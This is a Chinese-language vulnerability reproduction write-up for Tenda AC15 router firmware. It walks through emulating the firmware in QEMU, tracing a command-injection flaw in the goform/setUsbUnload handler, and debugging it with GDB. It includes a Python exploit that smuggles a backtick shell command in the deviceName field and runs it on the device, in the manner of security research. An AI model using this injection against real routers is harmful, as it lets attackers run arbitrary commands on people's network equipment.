

# tengdaAC15


# 1、信息收集

## 1.1、基础信息收集

### binwalk

```
binwalk US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin

```


我们发现这个固件的文件系统是Squashfs文件系统。

对这个固件进行解包
```
binwalk -Me US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin
```


### file&checksec

```
file busybox
```


```
checksec --file=busybox
```
我们发现这个固件是ARM架构的32位小端序。


## 1.2、启动项的分析
### firmwalker


我们可以看到，这个固件的服务是httpd起的

### web服务启动项

固件在初始化启动时，首先执行的是inittab文件

#### inittab文件
源码：
```
::sysinit:/etc_ro/init.d/rcS
ttyS0::respawn:/sbin/sulogin
::ctrlaltdel:/bin/umount -a -r
::shutdown:/usr/sbin/wl radio off
::shutdown:/usr/sbin/wl -i eth2 radio off
```
1. **`::sysinit:/etc_ro/init.d/rcS`**：
   - **作用**：在系统初始化时执行 `/etc_ro/init.d/rcS` 脚本，通常用于启动系统服务和初始化设置。

2. **`ttyS0::respawn:/sbin/sulogin`**：
   - **作用**：在 `ttyS0` 控制台上运行 `/sbin/sulogin`，如果该进程终止，则自动重启（respawn）。`sulogin` 用于安全登录。

3. **`::ctrlaltdel:/bin/umount -a -r`**：
   - **作用**：当接收到 Ctrl+Alt+Del 信号时执行 `/bin/umount -a -r`，以卸载所有文件系统并重启。

4. **`::shutdown:/usr/sbin/wl radio off`**：
   - **作用**：在系统关闭时执行 `wl radio off`，用于关闭无线电功能。

5. **`::shutdown:/usr/sbin/wl -i eth2 radio off`**：
   - **作用**：在系统关闭时执行 `wl -i eth2 radio off`，用于关闭特定接口的无线电功能（`eth2`）。
   
这里面启动了/etc_ro/init.d/rcS文件,我们继续分析rcS文件。

#### rcS文件
源码：
```
#! /bin/sh

PATH=/sbin:/bin:/usr/sbin:/usr/bin/  # 设置脚本中可执行文件的搜索路径
export PATH  # 导出 PATH 环境变量，使子进程也能使用

mount -t ramfs none /var/  # 挂载一个 RAM 文件系统到 /var/，用于临时存储数据

mkdir -p /var/etc  # 创建 /var/etc 目录（如果不存在），存放配置文件
mkdir -p /var/media  # 创建 /var/media 目录（如果不存在），用于媒体文件
mkdir -p /var/webroot  # 创建 /var/webroot 目录（如果不存在），用于存放网页内容
mkdir -p /var/etc/iproute  # 创建 /var/etc/iproute 目录（如果不存在），用于路由配置
mkdir -p /var/run  # 创建 /var/run 目录（如果不存在），用于存放运行时文件
cp -rf /etc_ro/* /etc/  # 复制只读的 /etc 目录下的所有文件到可写的 /etc 目录
cp -rf /webroot_ro/* /webroot/  # 复制只读的 /webroot 目录下的所有文件到可写的 /webroot 目录
mkdir -p /var/etc/upan  # 创建 /var/etc/upan 目录（如果不存在），用于存放相关配置
mount -a  # 挂载所有在 /etc/fstab 中定义的文件系统，确保所有必要的文件系统都被挂载

mount -t ramfs /dev  # 挂载一个 RAM 文件系统到 /dev，提供虚拟设备节点
mkdir /dev/pts  # 创建 /dev/pts 目录（用于伪终端）
mount -t devpts devpts /dev/pts  # 挂载 devpts 文件系统到 /dev/pts，支持伪终端功能
mount -t tmpfs none /var/etc/upan -o size=2M  # 挂载一个大小为2M的tmpfs到 /var/etc/upan，用于临时数据存储
mdev -s  # 运行 mdev，自动管理设备的创建和删除

mkdir /var/run  # 再次确保 /var/run 目录存在
#mount -t jffs2 /dev/mtdblock7 /cfg  # 挂载 JFFS2 文件系统（注释掉，可能是未使用的配置）

echo '/sbin/mdev' > /proc/sys/kernel/hotplug  # 设置热插拔管理程序为 mdev，处理设备插入和移除
# 下面的几行定义 USB 设备和打印机的处理规则（注释掉）

echo 'wds*.* 0:0 0660 */etc/wds.sh $ACTION $INTERFACE' > /etc/mdev.conf  # WDS 设备处理规则
echo 'sd[a-z][0-9] 0:0 0660 @/usr/sbin/usb_up.sh $MDEV $DEVPATH' >> /etc/mdev.conf  # USB 设备插入处理
echo '-sd[a-z] 0:0 0660 $/usr/sbin/usb_down.sh $MDEV $DEVPATH'>> /etc/mdev.conf  # USB 设备移除处理
echo 'sd[a-z] 0:0 0660 @/usr/sbin/usb_up.sh $MDEV $DEVPATH'>> /etc/mdev.conf  # USB 设备插入处理（重复）
echo '.* 0:0 0660 */usr/sbin/IppPrint.sh $ACTION $INTERFACE'>> /etc/mdev.conf  # 其他设备处理规则
#echo '115.159.183.96 cloud.tenda.com.cn' >> /etc/hosts  # 添加主机名（注释掉，可能是未使用）

mkdir -p /var/ppp  # 创建 /var/ppp 目录（如果不存在），用于 PPP 相关文件
insmod /lib/modules/fastnat.ko  # 加载 fastnat 内核模块，优化网络性能
insmod /lib/modules/bm.ko  # 加载 bm 内核模块，可能涉及带宽管理
#insmod /lib/modules/ai.ko  # 加载 ai 内核模块（注释掉，可能是未使用）
insmod /lib/modules/mac_filter.ko  # 加载 mac_filter 内核模块，用于 MAC 地址过滤
#insmod /lib/modules/ip_mac_bind.ko  # 加载 ip_mac_bind 内核模块（注释掉，可能是未使用）
insmod /lib/modules/privilege_ip.ko  # 加载 privilege_ip 内核模块，对特定 IP 进行权限控制
insmod /lib/modules/qos.ko  # 加载 qos 内核模块，实现服务质量管理
insmod /lib/modules/url_filter.ko  # 加载 url_filter 内核模块，用于 URL 过滤
insmod /lib/modules/loadbalance.ko  # 加载 loadbalance 内核模块，实现负载均衡
echo "0 0 0 0">/proc/sys/kernel/printk  # 设置内核打印级别，控制日志输出
#insmod /lib/modules/app_filter.ko  # 加载 app_filter 内核模块（注释掉，可能是未使用）
#insmod /lib/modules/port_filter.ko  # 加载 port_filter 内核模块（注释掉，可能是未使用）
#insmod /lib/modules/arp_fence.ko  # 加载 arp_fence 内核模块（注释掉，可能是未使用）
#insmod /lib/modules/ddos_ip_fence.ko  # 加载 ddos_ip_fence 内核模块（注释掉，可能是未使用）
insmod /lib/modules/jnl.ko  # 加载 jnl 内核模块，可能与日志管理有关
insmod /lib/modules/ufsd.ko  # 加载 ufsd 内核模块，支持特定文件系统
insmod /lib/modules/fastnat_configure.ko  # 加载 fastnat_configure 内核模块，用于 fastnat 的配置
chmod +x /etc/mdev.conf  # 赋予 /etc/mdev.conf 执行权限

cfmd &  # 启动 cfmd 进程，可能用于配置管理
echo '' > /proc/sys/kernel/hotplug  # 清空 hotplug 设置，停止处理设备插拔
udevd &  # 启动 udev 进程，管理设备节点
logserver &  # 启动日志服务器进程，收集和管理日志

tendaupload &  # 启动 tendaupload 进程，可能用于上传数据
if [ -e /etc/nginx/conf/nginx_init.sh ]; then  # 检查 nginx 初始化脚本是否存在
	sh /etc/nginx/conf/nginx_init.sh  # 执行 nginx 初始化脚本，配置 Nginx 服务器
fi

moniter &  # 启动监控进程，监控系统状态
telnetd &  # 启动 telnet 服务器进程，提供远程访问功能

```

在这个的rcS文件里面，启动了cfmd的二进制文件


在这个二进制文件夹里面，它调用了一个自定义函数，并且把“httpd”作为了参数。


这里的调用execvp函数启动httpd


# 2、system启动

## 2.1、配置网卡
```
 sudo tunctl -t tap0 -u `whoami`
```


```
sudo ifconfig tap0 192.168.0.1/24 up
```


## 2.2、启动虚拟机

```
sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress   -initrd initrd.img-3.2.0-4-vexpress   -drive if=sd,file=debian_wheezy_armhf_standard.qcow2   -append "root=/dev/mmcblk0p2" -smp 2,cores=2   -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```


给虚拟机配置网卡。

```
ifconfig eth0 192.168.0.2/24 up
```


## 2.3、打包固件发送到虚拟机

```
tar -zcvf ax15.tar.gz squashfs-root/
```


```
python -m SimpleHTTPServer
```


```
wget http://192.168.0.1:8000/ax15.tar.gz
```


## 2.4、解包固件运行
```
tar -zxvf ax15.tar.gz
```


挂在文件目录

```
mount --bind /proc/ proc/
mount --bind /dev/ dev/
mount --bind /sys/ sys/
chroot . sh
```
运行

```
httpd
```


## 2.5、keypatch

我们上面运行，发现这个卡在了这里


我们打开ida，看一下httpd

追踪一下关键字“****** WeLoveLinux******”


ida动调的时候，我们发现这个程序卡到了这里。


分析代码逻辑，发现我们需要patch两个地方


之后把文件传进我们起的虚拟机


然后覆盖原来的httpd文件。


## 2.6、添加br0


然后运行httpd


我们发现这个服务虽然起来了，但是这个ip很奇怪

审计一下httpd和别的库函数，我们发现我们少了一个br0网卡

手动添加以下

```
 ip link add br0 type dummy
 ifconfig br0 192.168.0.3/24 up
 
```


再起一次httpd
我们发现这次的ip是合理的


正是我们给br0配的ip地址。

## 2.7、复制webroot


我们现在访问一下，发现是能访问，但是发现能访问但是没页面。


我们看启动项的时候看到了这个命令
```
cp -rf /webroot_ro/* /webroot/  # 复制只读的 /webroot 目录下的所有文件到可写的 /webroot 目录
```


我们进这个httpd的二进制文件夹，也会发现它里面走的路径是webroot/路径





但是我们访问一下这个文件，发现是空的，所以我们需要手动执行一下这个命令。

```
ln -s webroot_ro/ webroot
```


让我们再启动一次httpd


我们发现我们成功了！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！


# 3、漏洞复现
## 3.1、漏洞描述


在这个函数里面有危险函数，这边拼接了一个v3变量往上追踪


我们发现这个函数里面调用了sub_1FBF4（）函数。我们继续追踪往上。


我们发现这个函数里面并没有进行相关的命令执行的过滤，我们现在看一下怎么利用这个漏洞。

我们追踪一下怎么调用的这个函数


我们再追踪一下这个字符串“setUsbUnload”，我们对这个函数的调用进行追踪一下。


## 3.2、追踪前端利用链

现在，我们到固件里面进行搜索，我们上面追踪到一个‘setUsbUnload’字符串。


我们发现这个字符串除了我们的httpd中出现过以后就只有这个status_usb.js文件里面有

我们追踪一下这个文件的源码


```
function unLinkUsb() { // 定义一个名为 unLinkUsb 的函数
    var devName = $(this).data("target"); // 获取当前元素的 target 数据属性值，并赋值给 devName

    // 发送请求到指定的 URL，卸载 USB 设备
    $.GetSetData.setData(
        "goform/setUsbUnload", // 请求的 URL
        "deviceName=" + encodeURIComponent(devName), // URL 编码设备名称
        unLinkCallback // 请求完成后执行的回调函数
    );
}
```

我们发现这个函数只是对数据的一个处理。
我们继续往上追踪。


我们发现只有这一个status_usb.html网页的对这个.js文件进行了调用。

我们访问这个前端的网页，并且抓包看看。


我们发现这个网页只有一个按钮，对源码进行分析。

我么们发现这个按钮是不存在的，这是CSS的原因，我们把这个关掉。就会发现我们可以显示出来我们的另外两个按钮。


进行抓包。


我们发现这里面传递了一个变量，看看能不能进行命令执行。


我们发现命令执行成功！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！

这说明我们的命令执行是成功的。

# 4、exp


源码：
```
import requests

burp0_url = "http://192.168.0.3:80/goform/setUsbUnload"
burp0_cookies = {"password": "fumcvb"}
burp0_headers = {"Accept": "text/plain, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Origin": "http://192.168.0.3", "Referer": "http://192.168.0.3/status_usb.html", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
burp0_data = {"deviceName": "undefined`echo aaaaa > ./webroot/1.html`"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


# import requests

burp1_url = "http://192.168.0.3:80/1.html"
burp1_cookies = {"password": "fumcvb"}
burp1_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
a=requests.get(burp1_url, headers=burp1_headers, cookies=burp1_cookies)

print(a.text)


```


# 5、GDB调试
## 5.1、gdbsever

首先我们先把gdbserver传进我们的虚拟机。


然后在新的窗口通过ssh命令链接我们的虚拟机


```
ssh root@192.168.0.3
```


我们先启动我们的服务。

然后通过gdb远程连接

```
./gdbserver :4567 --attach 4714

```


```
gdb-multiarch ./bin/httpd
set architecture arm
set endian little
set sysroot lib/ 指定在当前目录下的lib文件
set solib-search-path lib/ 指定当前目录下
target remote 192.168.0.3:4567
```


设置断点

```
b *0x000A6894

```


然后我们把我们的命令包发过去。


然后观察gdb的变化

我们发现我们的命令已经进来了。


我们发现我们的命令已经被作为参数传进去了


我们发现我们的命令执行成功了！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！


